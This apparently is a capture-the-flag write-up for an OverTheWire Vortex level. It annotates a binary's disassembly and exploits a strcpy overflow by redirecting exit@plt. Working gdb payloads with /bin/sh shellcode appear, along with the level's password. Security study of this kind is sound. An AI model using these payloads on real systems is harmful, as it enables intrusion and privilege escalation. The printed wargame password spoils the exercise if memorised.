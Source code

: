 Dump of assembler code for function main:
```assembly
   0x0804842d <+0>:     push   ebp
   0x0804842e <+1>:     mov    ebp,esp
   0x08048430 <+3>:     and    esp,0xfffffff0
   0x08048433 <+6>:     sub    esp,0xa0
   0x08048439 <+12>:    mov    DWORD PTR [esp+0x9c],0x8049748	#some sort of validation check (t.b.c)
   0x08048444 <+23>:    cmp    DWORD PTR [ebp+0x8],0x2		# if num of args == 2
   0x08048448 <+27>:    je     0x8048456 <main+41>
   0x0804844a <+29>:    mov    DWORD PTR [esp],0x1
   0x08048451 <+36>:    call   0x8048310 <exit@plt>
   0x08048456 <+41>:    mov    eax,DWORD PTR [ebp+0xc]
   0x08048459 <+44>:    add    eax,0x4
   0x0804845c <+47>:    mov    eax,DWORD PTR [eax]
   0x0804845e <+49>:    mov    DWORD PTR [esp+0x4],eax		#push env[0]
   0x08048462 <+53>:    lea    eax,[esp+0x18]
   0x08048466 <+57>:    mov    DWORD PTR [esp],eax		#push buffer
   0x08048469 <+60>:    call   0x80482f0 <strcpy@plt>
   0x0804846e <+65>:    mov    eax,DWORD PTR [esp+0x9c]		#said validation address
   0x08048475 <+72>:    mov    ax,0x0				#lower part is zeroed (don't care)
   0x08048479 <+76>:    cmp    eax,0x8040000			#validate its integrity, if not equal, exit
   0x0804847e <+81>:    je     0x804848c <main+95>
   0x08048480 <+83>:    mov    DWORD PTR [esp],0x2
   0x08048487 <+90>:    call   0x8048310 <exit@plt>
   0x0804848c <+95>:    mov    eax,DWORD PTR [esp+0x9c]	
   0x08048493 <+102>:   mov    eax,DWORD PTR [eax]	
   0x08048495 <+104>:   mov    DWORD PTR [esp+0x98],eax		#write some opcode at our "aaaa"s
   0x0804849c <+111>:   mov    eax,DWORD PTR [esp+0x9c]		#watch from here:		
   0x080484a3 <+118>:   mov    eax,DWORD PTR [eax]		#eax = our modified addr's value		
   0x080484a5 <+120>:   lea    edx,[esp+0x18]			#loads one of our buffer's addr		
   0x080484a9 <+124>:   mov    DWORD PTR [eax],edx		#writes edx to our modified addr's value
   0x080484ab <+126>:   mov    DWORD PTR [esp],0x0
   0x080484b2 <+133>:   call   0x8048310 <exit@plt>		#overwrite me
```

Dump of assembler code for function exit@plt:
```assembly
   0x08048310 <+0>:     jmp    *0x8049734
   0x08048316 <+6>:     push   $0x10
   0x0804831b <+11>:    jmp    0x80482e0
```
we need 152 bytes to override the return address, but we see the program makes a sort of validation  
check so we'll bypass it...  
the address we need to "fool" - 0xffffd52c: 0x08049748  
this time around its big indian...  
r $(python -c 'print "a"*132 + "\x00\x00\x04\x08"+"a"*16')
ok, we still exit normally, but we can temper with the 2 lower bytes of our modified addr...  
but first, we see that the program writes the memory address of our buffer...  
so we can only overwrite an absolute jmp instruction (all other opcodes use relative jmp, which we can't use...)  
after some digging, we find an absolute jmp address at exit@plt:  
so lets overwrite exit@plt() function by writing it's addr to our buffer:  
r $(python -c 'print "a"*132 + "\x10\x83\x04\x08"+"a"*16')  
it crashed... corection: we need to overwrite somewhere else:  
0x8048310 <exit@plt>:   0x973425ff      0x10680804 --> we missed by 2 bytes!  
r $(python -c 'print "a"*132 + "\x12\x83\x04\x08")  
indded we have overwritten the return address...  
we replace "a"'s with shellcode:  
r $(python -c 'print "\x90"*101 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80" + "aaaa" + "\x12\x83\x04\x08"')  

we get:  
$ whoami  
vortex4  
$ cat /etc/vortex_pass/vortex4  
2YmgK1=jw

summery: we had to find an address at 0x0804<xxxx> which points to an address that has direct jmp of the type: jmp *<address>,  
why? because the code write to the address of the address that we chose, so jmp with value of an address is needed...  
then we'll be able to get control over the code...fortunatly, exit@plt supplies us with just that.  


